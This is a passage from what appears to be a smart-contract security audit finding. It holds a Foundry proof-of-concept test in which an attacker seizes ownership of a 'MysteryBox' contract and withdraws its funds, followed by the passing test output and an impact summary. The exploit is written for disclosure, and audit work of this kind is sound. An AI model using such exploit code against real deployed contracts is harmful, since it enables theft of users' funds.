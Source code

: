 ```javascript

        console.log("New owner of the contract should be the attacker:", mysteryBox.owner());

        // Check that the attacker is now the owner
        assertEq(mysteryBox.owner(), attacker, "Ownership should be changed to the attacker");

        // Further exploits can be carried out now that the attacker is the owner
        console.log("Attempting to withdraw funds as the new owner");

        // Attacker can withdraw funds
        uint256 initialAttackerBalance = attacker.balance;
        vm.startPrank(attacker);
        mysteryBox.withdrawFunds();
        vm.stopPrank();

        uint256 finalAttackerBalance = attacker.balance;
        console.log("Attacker's balance before withdraw:", initialAttackerBalance);
        console.log("Attacker's balance after withdraw:", finalAttackerBalance);

        // Uncomment below if you want to assert the balance changes
        // assertEq(finalAttackerBalance - initialAttackerBalance, 0.1 ether, "Attacker should have withdrawn the contract funds");
    }
}

```

Output:

```javascript
Ran 1 test for test/ChangeOwnerTest.t.sol:ChangeOwnerTest
[PASS] testExploitChangeOwner() (gas: 63435)
Logs:
  Deploying MysteryBox contract
  Initial owner of the contract: 0x7FA9385bE1023EAc297483Dd6233D62b3e1496
  New owner of the contract should be the attacker: 0x0000000000000000000000000000000000000001
  Attempting to withdraw funds as the new owner
  Attacker's balance before withdraw: 0
  Attacker's balance after withdraw: 100000000000000000
```

## Impact

* Unauthorized Ownership Changes: Any user can become the owner of the contract without permission.

- Full Fund Withdrawal: The malicious owner can withdraw all funds from the contract.

* Potential Further Exploitation: Any other owner-restricted functionalities are open to misuse.

## Tools Used

* Foundry
